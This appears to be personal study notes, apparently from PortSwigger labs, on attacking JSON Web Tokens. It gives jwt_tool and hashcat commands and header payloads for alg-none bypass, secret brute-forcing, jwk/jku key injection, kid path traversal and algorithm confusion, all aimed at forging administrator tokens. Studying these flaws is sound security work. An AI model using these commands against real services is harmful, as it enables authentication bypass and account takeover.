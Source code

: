 # JWT : JSON WEB Token

standardized format for sending cryptographically signed JSON data between systems.
A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example.

    eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA

The header and payload parts of a JWT are just base64url-encoded JSON objects. The header contains metadata about the token itself, while the payload contains the actual "claims" about the user. For example, you can decode the payload from the token above to reveal the following claims:

    {
        "iss": "portswigger",
        "exp": 1648037164,
        "name": "Carlos Montoya",
        "sub": "carlos",
        "role": "blog_author",
        "email": "carlos@carlos-montoya.net",
        "iat": 1516239022
    }

# JWT auth bypass via flawed signature verification

Example, 

    {
        kid":"3601f8c8-61c2-403b-8f0f-6889d4853ffb",
        "alg":"none"
    }
change alg to none, and delete signature in the JWT

# Brute-force jwt to find password 

    hashcat -a 0 -m 16500 <jwt> <wordlist>

# Header injections 

According to specifications of JWT only `alg` header is mandatory, there are other headers that are used in JWT and attracts hackers. 
    
    jwk (json web key)
    jwu (json web url)
    kid  Provides an ID that servers can use to identify 

## Injecting self-signed JWTs via the jwk parameter
A JWK (JSON Web Key) is a standardized format for representing keys as a JSON object.
Example :

    {
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
        }
    }

when it's like this, we generate out own RSA key pairs, and sign the JWT outselves.
using jwt_tools
take the token into jwt_tools.py

    python3 jwt_tool.py <JWT token> -X i -T

and then change the paramateres for the attack 
PS : watchout the KID needs to be the same in both fields

// to create own script helpful link 
https://ktor.io/docs/rsa-keys-generation.html#populating-the-jwks-json-file

## Injecting self-signed JWTs via the jku parameter

didn't understand how it works, but those are the main steps :

run the command 

    python3 jwt_tool <jwt> -X s -ju <url> -T

the script will generate a config that the url which is our server needs to return 
example :

    {
        "keys":[
            {
                "kty":"RSA",
                "kid":"jwt_tool",
                "use":"sig",
                "e":"AQAB",
                "n":"wnfych1Rg1lGvds211TCWv0t6lpxMJ4JQjqpihOETIozqGwz1tyJNSHXOUXD9Rj6xLPH0DjP8dI8_qvwRqE-EaLldSoGPjPuDEsKqNbcd4acCqnAmAlfj3c7LTvV42kMDZLD9olnVj5dUXEKnGYrSr1_BiQhGG4lqIoTaCTVBam1yI-Jnn-y63XH8sRb6BxR2Kj2FdMUqIwYpaSUokGQZSVhO6fK787yPrkTVqYlWkgn691BW5T_njdIZi6IpnhU1OeF4Z-DQYGFyzcsmxOfZMtLG1XXqiteRIHBs-4-orCKizUfN8QcJs2_fs9wFImhF3YQklVYlzU2LbOw3Kou9w"
            }
        ]
    }
So the URL need to be a server that return this respone with application/json in content-type, and then we can use the forged token to connect. 

## JWT authentication bypass via kid header path traversal

Some time the server to verify the value, it looks in a file using kid, the key for this attack, is to change the fil to ../../../../../dev/null and change the claims to do that with jwt_tool

    jwt_tool <jwt_token> -I -hc kid -hv '../../../../dev/null' -pc sub -pv 'administrator' -S hs256 -p ''  # for empty password

## algorithm confusion attack

algorithm confusion attack exists in a flow of the verify method, many libraries provide this function of verification. 

    function verify(token, secretOrPublicKey){
        algorithm = token.getAlgHeader();
        if(algorithm == "RS256"){
            // Use the provided key as an RSA public key
        } else if (algorithm == "HS256"){
            // Use the provided key as an HMAC secret key
        }
    }

Problems arise when website developers who subsequently use this method assume that it will exclusively handle JWTs signed using an asymmetric algorithm like RS256. Due to this flawed assumption, they may always pass a fixed public key to the method as follows:

    publicKey = <public-key-of-server>;
    token = request.getCookie("session");
    verify(token, publicKey);

In this case, if the server receives a token signed using a symmetric algorithm like HS256, the library's generic verify() method will treat the public key as an HMAC secret. This means that an attacker could sign the token using HS256 and the public key, and the server will use the same public key to verify the signature.

so to perform the attack we need : 

1. Obtain the server's public key
2. Convert the public key to a suitable format
3. Create a malicious JWT with a modified payload and the alg header set to HS256.
4. Sign the token with HS256, using the public key as the secret.

and to find the public key used, the standards recommand to use these endpoints :  `/jwks.json` or `/.well-known/jwks.json`

using jwt_tool the command will be the following 

    jwt_tool <jwt_token> -X k -pk <public_key.pem> -I -pc  sub  -pv administrator

to generate the pem file, install jwt editor in burp
then go to generate new RSA key , and copy the jsonfile file found in `/jwks.json` example : 

    {"kty":"RSA","e":"AQAB","use":"sig","kid":"4b87d66e-6cfa-41ab-b677-f4afd2a123dd","alg":"RS256","n":"k84FbNQguvNDChkDeyajY3jG9qWuSPPmpWwr92Q2hz8x9sHWHpWF_XTHlmKV4s7qD0i2Z-7W6Nkv7INnH1GlUiRWnEPTmcqfPJkbLRK9R4gB37OIVJFtouDyzGEdF36XJPy9tv6mM3iORs5KFBuP5py5DDX8GKotgJfKJV9uNE2z47gkIzgf_u-HcGCIABnFEUJ9ipqoL6XRbBaxfqD9q7fIsFNryyZrjInOXbnXSNnk0bOcxnrVtQRZ3DHkQyewBsP0KpnkfEErt_u38PP_Sek0EYdYi_aKNTmiuCRqLVYLRHfx0oJnztMarOaTvubWlM__POCrEJZi9qzGVhYQWQ"}

then export it into pem file ( need to find other methods to do it )